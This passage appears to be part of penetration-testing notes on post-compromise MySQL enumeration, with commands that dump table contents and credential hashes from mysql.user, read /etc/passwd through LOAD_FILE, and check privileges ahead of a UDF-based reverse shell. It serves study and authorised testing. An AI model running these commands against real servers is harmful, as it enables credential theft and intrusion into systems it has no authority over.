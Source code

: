 - **Show tables**

`MySQL [database_name]> SHOW TABLES;`

- **Enumerate field**

`MySQL [database_name]> DESCRIBE <table_name>;`

- **Display records from a table**

`MySQL [database_name]> SELECT * FROM <table_name>;`

`MySQL [(none)]> SELECT @@datadir;`

`MySQL [(none)]> SHOW VARIABLES WHERE Variable_Name LIKE "%dir";`

#### 1.3.3 - Hashdump Credentials

- **Method 1:**

`MySQL [(none)]> SELECT user,authentication_string from mysql.user;`

`MySQL [(none)]> SELECT user,password from mysql.user;`

- **Method 2:**

`MySQL [(none)]> use mysql;`

`MySQL [(mysql)]> SELECT user,authentication_string from user;`

`MySQL [(mysql)]> SELECT user,password from user;`

### 1.4 - Enumerate Users

#### 1.4.1 - Discover users connected to the compromised MySQL database server

`MySQL [(none)]> SELECT USER();`

`MySQL [(none)]> SELECT LOAD_FILE('/etc/passwd');`

### 1.5 - Privilege Escalation

TODO: Finish the enumeration part for escalating to root/admin privileges

#### 1.5.1 - Discover what privileges does the user have access

`MySQL [(none)]> SHOW PRIVILEGES;`

`MySQL [(none)]> SHOW PRIVILEGES \G;`

These two are the most critical ways other than the basic query SQL commands just to get a reverse shell and escalate privileges for abusing the UDF MySQL feature. Look at the [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/Privilege Escalation/Linux/Service Exploits/MySQL|Service Exploits]] section.

```
*************************** <number>. row ***************************
Privilege: Execute
  Context: Functions,Procedures
  Comment: To execute stored routines
*************************** <number>. row ***************************
Privilege: File
  Context: File access on server
  Comment: To read and write files on the server

MySQL [(none)]> SELECT user,host FROM mysql.user;

MySQL [(none)]> SHOW GRANTS FOR <username>@<IP>;
```
